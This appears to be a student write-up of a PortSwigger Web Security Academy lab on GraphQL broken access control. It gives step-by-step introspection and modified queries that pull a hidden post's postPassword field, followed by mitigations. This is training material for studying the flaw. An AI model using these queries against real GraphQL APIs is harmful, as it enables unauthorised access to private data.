







#  Lab Report: Accessing Private GraphQL Posts

##  Platform
PortSwigger Web Security Academy

---

##  Objective
To identify and exploit a GraphQL API vulnerability to access a hidden blog post and retrieve its secret password.

---

##  Overview
This lab demonstrates how improper access control in GraphQL APIs can expose sensitive data. Even if data is hidden in the frontend, it may still be accessible via backend queries.

---

#  Methodology

The following steps were performed:

1. Intercepted requests using Burp Suite  
2. Identified GraphQL endpoint `/graphql/v1`  
3. Analyzed queries fetching blog summaries  
4. Detected missing blog post (ID = 3)  
5. Performed introspection to identify hidden fields  
6. Discovered sensitive field `postPassword`  
7. Modified query to extract password  
8. Submitted password to solve lab  

---

#  Exploitation Steps

---

## 🔹 Step 1: Lab Initial State

The lab interface was opened and showed the blog homepage with status "Not Solved".

 **Screenshot 1: Lab Initial Page**


---

## 🔹 Step 2: Identify GraphQL Endpoint

Using Burp Suite HTTP history, the following endpoint was identified:

```http
POST /graphql/v1
```

 **Screenshot 2: GraphQL Endpoint**


 This confirms the application uses GraphQL.

---

## 🔹 Step 3: Analyze Blog Summaries Query

Observed query:

```graphql
query getBlogSummaries {
  getAllBlogPosts {
    image
    title
    summary
    id
  }
}
```

Response contained posts but **ID 3 was missing**.

 **Screenshot 3: Blog Summaries Response**


 Indicates hidden/private data.

---

## 🔹 Step 4: Access Hidden Blog Post

Modified query:

```json
{
  "query": "query getBlogPost($id: Int!) { getBlogPost(id: $id) { title author date } }",
  "variables": {
    "id": 3
  }
}
```

Response returned details but **no password**.

 **Screenshot 4: Hidden Post Without Password**


---

## 🔹 Step 5: Perform GraphQL Introspection

Used introspection query:

```graphql
{
  __schema {
    types {
      name
      fields {
        name
      }
    }
  }
}
```

Discovered field:

```text
postPassword
```

 **Screenshot 5: Introspection Result**


---

## 🔹 Step 6: Exploit Hidden Field

Modified query:

```json
{
  "query": "query getBlogPost($id: Int!) { getBlogPost(id: $id) { title author date postPassword } }",
  "variables": {
    "id": 3
  }
}
```

Response:

```json
"postPassword": "YOUR_PASSWORD"
```

 **Screenshot 6: Password Extraction**


---

## 🔹 Step 7: Submit Solution

The extracted password was submitted successfully.

 **Screenshot 7: Lab Solved**


---

#  Key Findings

- Sensitive field `postPassword` exposed via GraphQL  
- Hidden data accessible through direct queries  
- No backend authorization checks  

---

#  Vulnerability

### Broken Access Control (GraphQL)

The API allows unauthorized users to access sensitive data.

---

#  Impact

- Exposure of confidential data  
- Unauthorized access to private resources  

---

#  Mitigation

- Enforce authorization in resolvers  
- Restrict sensitive fields  
- Disable introspection in production  
- Validate GraphQL queries  

---

#  Conclusion

This lab highlights the importance of securing GraphQL APIs. Attackers can exploit schema exposure and flexible queries to retrieve hidden data if proper access control is not implemented.

---

